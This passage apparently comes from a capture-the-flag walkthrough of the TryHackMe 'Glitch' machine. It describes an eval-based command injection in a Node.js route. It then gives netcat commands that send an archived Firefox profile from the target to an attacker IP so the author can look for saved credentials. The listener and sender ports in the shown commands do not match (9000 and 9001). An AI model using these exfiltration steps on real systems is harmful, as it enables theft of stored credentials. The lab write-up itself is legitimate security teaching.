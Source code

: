 We can see an eval function in `router.post('/items')` declaration that says that if "cmd" query parameter exists then respond with "vulnerability_exploited" and the output of the eval function executed on the supplied value on "cmd" query parameter. That is why we saw the output of our command after "vulnerablity_exploited" string in the response.

---

# Privilege Escalation to v0id <a name="privesc">

Running `ls -la` I found a hidden directory `.firefox`. 

![ls -la - user](assets/img/posts/glitch-thm/ls-user.png)

`.firefox` is a directory where Firefox profiles are stored, we can load the profile on our host machine to look for anything interesting saved in the profile.

To analyze the profile, we need to exfiltrate the file to our host machine. I compressed the file using tar and transferred to my machine using netcat.

**Host Machine**
```bash
nc -lvnp 9000 > firefox_data.tar.gz
```

**Glitch Machine**
```bash
tar -czvf firefox_data.tar.gz ./.firefox/
nc 10.4.13.51 9001 < firefox_data.tar.gz
```

To decompress the exfiltrated file on the host machine, run `tar -xvf firefox_data.tar.gz` and use `cd` to go to that directory.

The profile name is `b5w4643p.default-release`. To run firefox with this profile, use the following command:

```bash
firefox --profile .firefox/b5w4643p.default-release
```

Make sure you're in the directory where `.firefox` (exfiltrated and decompressed) directory is present. Firefox should start immediately.
